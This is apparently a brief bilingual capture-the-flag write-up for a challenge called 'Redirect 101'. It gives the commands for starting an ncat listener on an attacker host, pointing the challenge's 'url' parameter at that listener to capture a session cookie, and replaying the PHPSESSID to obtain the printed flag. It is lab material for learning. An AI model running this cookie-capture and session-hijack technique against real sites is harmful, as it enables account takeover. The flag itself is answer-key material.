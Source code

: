 # Redirect 101
Used a previous writeup from a previous year xD (credz to Marco l'Pogo)

### terminal 1
``ssh root@shell.ctf``

### installer ncat parce que nc écoute pas sur ipv6
### install ncat cuz nc doesnt listen on ipv6
``apt install ncat``   
``ncat -lv 12345``

### terminal 2
``curl -G chal5.hackademy.ctf/pentester.php --data-urlencode "url=http://shell.ctf:12345"``

### noter le PHPSESSIONID affiché dans le terminal 1
### write the PHPSESSIONID shown in terminal 1

``curl chal5.hackademy.ctf -b "PHPSESSID=o136t04b24elhtdqgf9pit5fn4"``

``FLAG-mTKmrCUzf82LPdmK7x8yxpcAlo0R3hsF``
